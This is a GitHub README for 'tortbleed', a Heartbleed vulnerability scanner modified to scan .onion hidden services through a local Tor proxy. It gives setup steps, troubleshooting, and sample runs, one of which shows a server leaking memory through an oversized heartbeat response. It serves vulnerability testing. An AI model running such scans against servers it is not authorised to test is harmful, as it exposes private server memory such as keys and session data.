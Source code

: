 tortbleed
=========

Modification of Samiux's Heartbleed Reload scanner to allow direct scanning of .onion addresses.

==========System Requirements==========

- SocksiPy ( Available here: https://github.com/mikedougherty/SocksiPy ).

- urllib2 ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/urllib2.py ).

- socket ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/socket.py ).

- A local tor server configured to allow you to connect through it to endpoints.  You do not
  necessarily need to configure it as a relay, so long as your IP is configured in a
  'SocksPolicy accept' rule.  Being configured as a relay will not have a negative impact,
  though, should you have that set-up.

- Python 2.7, as this was the only version I tested this script against.  Please feel free to
  modify it to work with whatever version you might be using other than 2.7.

==========Setup & Usage==========

You must do the following, or this scanner just wont work:

1. Ensure you have installed and setup Tor on a system accessible to you to ensure you can
   bounce through it via this script.

2. Edit your copy of torwrapper.py to suit your Tor instance ip / hostname and port to access,
   on lines 11 & 12.

3. Copy the edited torwrapper.py file to your Python site-packages directory.

4. Ensure you have installed the SocksiPy, socket, and urllib2 site-packages properly.

Once those steps are completed, you can then run the scanner.  The usage output is below, along
with an example with output:
```
$ ./tortbleed.py -c 1 3g2upl4pq6kufc4m.onion
Starting Tor Daemon & Connecting to Tor Network...
Connected to Tor Relay.
My ip is 109.163.234.7 (edwardsnowden0.torservers.net)

====================================
Server: 3g2upl4pq6kufc4m.onion
Run number: 1
====================================

Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 2483
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
Unexpected EOF receiving record header - server closed connection
No heartbeat response received, server likely not vulnerable.

====================================

Done, exiting.
```
```
$ ./tortbleed.py -c 1 192.168.1.43
Connecting to non-onion address...

====================================
Server: 192.168.1.43
Run number: 1
====================================

Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 58
 ... received message: type = 22, ver = 0302, length = 437
 ... received message: type = 22, ver = 0302, length = 397
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
				--snipped output remaining output for readme brevity--

WARNING: server returned more data than it should - server is vulnerable!

====================================

Done, exiting.
```
==========Troubleshooting==========

You may get tracebacks because I haven't included any error handling.
The two most common I found during testing are explained below.

1 - socks.Socks5Error: ((2, 'connection not allowed by ruleset'),)
This occurs when the Tor Relay you are connected to for this particular scan doesn't allow
outgoing connections to the .onion you are attempting to scan.  Most often, attempting another
run of the same command will connect you to another Relay and allow this to go through.  If,
however, you hit the same error, another few attempts may be required.

2 - socks.Socks5Error: ((91, 'request rejected or failed'),)
This happens when connection to the .onion endpoint fails to successfully complete through the
Tor Relay you are connected through.  This can be for a number of reasons, and may be worth
trying once more.  Same result usually means problems with the .onion server (either not having
the port you're attempting to scan on enabled, or other connection-related issues).

3 - "Help, there's lag in the data returned from the server for .onion URL's!" 
This is due to the delay introduced in general when transmitting / receiving over the Tor network.
Additionally, some exit nodes / relays introduce a bandwidth throttle for outgoing traffic to
limit the impact on the non-Tor network traffic of the host.  This is not the fault of the script,
but rather of the Tor network and/or Relay operator.  Try running the script again to potentially
hit a new exit node / relay and potentially improve that performance (or worsen it! :P)

Good luck!

Mike <michael@prattlecorp.com>
